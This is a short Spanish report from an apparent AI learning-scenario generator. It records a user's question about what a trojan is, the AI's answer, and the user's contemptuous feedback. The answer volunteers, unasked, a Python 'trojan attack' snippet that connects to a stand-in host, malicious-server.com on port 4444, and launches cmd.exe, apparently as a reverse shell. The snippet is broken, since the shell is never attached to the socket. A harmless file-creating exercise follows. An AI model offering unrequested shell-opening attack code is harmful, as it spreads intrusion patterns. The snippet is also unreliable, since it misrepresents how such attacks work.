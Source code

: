 
    # 🚀 Reporte de Generador de Escenarios de Aprendizaje

    **Consulta:**  
    Que es un troyano

    **Respuesta IA:**  
    Hola, soy un experto en hackatones.

Información básica sobre un troyano:
Un troyano es un tipo de malware que se presenta como un software legítimo para engañar a los usuarios y hacer que lo instalen. Una vez instalado, puede permitir a un atacante acceder a la computadora de la víctima, robar información o realizar otras acciones maliciosas.

Ejemplo de cómo te pueden infectar:
Los troyanos a menudo se distribuyen a través de correos electrónicos de phishing, donde se envían archivos adjuntos que parecen inofensivos. Al abrir el archivo, el malware se instala en el sistema.

Código de ejemplo de un ataque troyano:

python
import socket
import os

def create_trojan():
    # Código para crear un socket y conectarse a un servidor remoto
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("malicious-server.com", 4444))
    os.system("cmd.exe")  # Abre la línea de comandos
    s.close()

create_trojan()



Ahora, por favor, inserta tu nombre: ____ y tu nota: _____.

Actividad: Completar un código de un troyano inofensivo

Completa el siguiente código para simular un troyano que crea archivos en una carpeta específica:


python
import os
import random
import string

def create_files(num_files):
    for i in range(num_files):
        filename = ''.join(random.choices(string.ascii_letters + string.digits, k=10)) + ".txt"
        with open(os.path.join("C:\\ruta\\a\\tu\\carpeta", filename), 'w') as f:
            f.write("Este es un archivo creado por un troyano inofensivo.")

# Llama a la función para crear 5 archivos
create_files(____)  # Completa con el número de archivos que deseas crear



Instrucciones:
1. Completa el espacio en blanco con el número de archivos que deseas que el código cree.
2. Explica brevemente cómo funciona el código y qué acciones realiza.

Espero que esta información y actividad te sean útiles.

    **Reporte del Usuario:**  
    menudo mierdon
        